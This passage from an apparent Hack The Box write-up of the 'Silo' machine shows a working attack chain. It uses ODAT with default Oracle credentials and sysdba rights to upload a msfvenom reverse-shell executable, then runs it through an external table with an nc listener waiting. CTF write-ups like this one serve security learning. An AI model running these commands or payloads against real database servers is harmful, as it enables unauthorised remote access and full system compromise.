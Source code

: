 Now that I have valid credentials for the **XE** instance, I follow the instructions available on the **[ODAT Wiki](https://github.com/quentinhardy/odat/wiki){:target="_blank"}** to authenticate and using the **--putFile** parameter I can upload a malicious file. With `msfvenom` I create an **.exe** binary that takes care of sending me a **Reverse Shell** when executed and with `odat.py` I succeed in uploading it without problems to the server.

```bash
./bin/python3 odat.py --help | grep utlfile | tail -n 1
# ./odat.py utlfile -s 192.168.1.254 -p 1521 -d ORCL -U scott -P tiger --sysdba --putFile 'C:/windows/temp/' shell.exe shell.exe

./bin/python3 odat.py utlfile -s 10.10.10.82 -d XE -U scott -P tiger --sysdba
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.22 LPORT=443 -f exe -o shell.exe
./bin/python3 odat.py utlfile -s 10.10.10.82 -d XE -U scott -P tiger --sysdba --putFile 'C:\Windows\Temp' oldb0yShell.exe ./shell.exe
```

<br />
<img src="{{ site.img_path }}/silo_writeup/Silo_26.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/silo_writeup/Silo_27.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/silo_writeup/Silo_28.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Finally I can perform the last step to successfully engage the machine, thanks to the `odat.py` help panel I can get information about the utility that will allow me to access the malicious file and follow the necessary steps to execute it. I have problems for the execution because I don't have the necessary privileges, but using the **--sysdba** parameter can solve this problem. I just have to open a local port with `nc` waiting for the remote connection and run the `odat.py` tool with all the parameters and values set correctly to successfully engage the machine. As the compromised account is the one with maximum privileges I can access the two flags and enter them in the **[Hack The Box](https://www.hackthebox.com){:target="_blank"}** platform, rootead machine!

```bash
./bin/python3 odat.py --help
./bin/python3 odat.py externaltable
./bin/python3 odat.py externaltable -s 10.10.10.82
./bin/python3 odat.py externaltable -s 10.10.10.82 -d XE
./bin/python3 odat.py externaltable -s 10.10.10.82 -d XE -U scott -P tyger
./bin/python3 odat.py externaltable -s 10.10.10.82 -d XE -U scott -P tyger --exec --help

rlwrap -cAr nc -nlvp 443

./bin/python3 odat.py externaltable -s 10.10.10.82 -d XE -U scott -P tiger --exec 'C:\Windows\Temp\' oldb0yShell.exe
./bin/python3 odat.py externaltable -s 10.10.10.82 -d XE -U scott -P tiger --exec 'C:\Windows\Temp\' oldb0yShell.exe --sysdba
# :)

whoami
```
